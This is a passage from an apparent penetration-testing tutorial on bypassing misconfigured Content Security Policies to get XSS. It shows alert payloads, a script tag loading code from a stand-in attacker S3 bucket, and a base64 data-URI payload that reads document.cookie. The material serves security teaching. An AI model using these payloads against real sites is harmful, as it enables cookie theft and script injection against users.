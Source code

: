 ```js
<script>alert("XSS")</script> 
```
It's a simple payload that gives an alert over the window, as unsafe-inline is allowed this inline code will get executed.

**Scenario 2 - Wildcards**

Let's assume we have a target that has the following policy configured:

```css
/* Exploiting wildcards */
Content-Security-Policy: default-src 'self' script-src *.amazonaws.com
```

Obviously, the developer wants the website to be able to load scripts from an S3 bucket and uses a wildcard over the amazonaws.com domain name. In this case, inline XSS payloads aren't gonna work but now know that it trusts scripts that come from amazonaws.com, we can create our own AWS S3 bucket and host a javascript file with our malicious code. If the website doesn't have any security mechanisms like input sanitizing and filtering we can just try to use a payload like this...

Another similar scenario would be if the website trusts domains like `cdnjs.cloudflare.com`. In that case, we can load any library from that public service. You can just go to [https://cdnjs.com/](https://cdnjs.com/) and choose a library and add the URL to the script tag's src attribute. It'll be a sort of hijack situation.

```js
<script src="https://attacker-bucket.amazonaws.com/script.js"></src>
```

The browser will allow this because CSP tells the browser to trust any subdomain of amazonaws.com for loading scripts and we just have that!

**Scenario 3 - Data Scheme**

Let's assume we have a target that has the following policy configured:

```css
Content-Security-Policy: default-src 'self' script-src data:
```

This allows the use of data scheme. Inline script like `<script>alert("XSS")</script>` could be blocked by the browser but we have the allowance of using data scheme so we use a payload like the following one:

```js
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="></script>
```

This contains the base64 encoded string `alert(document.cookie)` and this will be allowed by the browser because we used data scheme and then we should be getting an alert popup with the cookies of the current session if the application is vulnerable.

---

There could be many other scenarios and one huge takeaway from all of this is don't blindly put in all sorts of XSS payloads on an application, enumerating CSP and analyze those. Look for ways you can exploit misconfiguration. Look for domains trusted by the target application which could be controlled by you (we saw that in the wildcard example). 
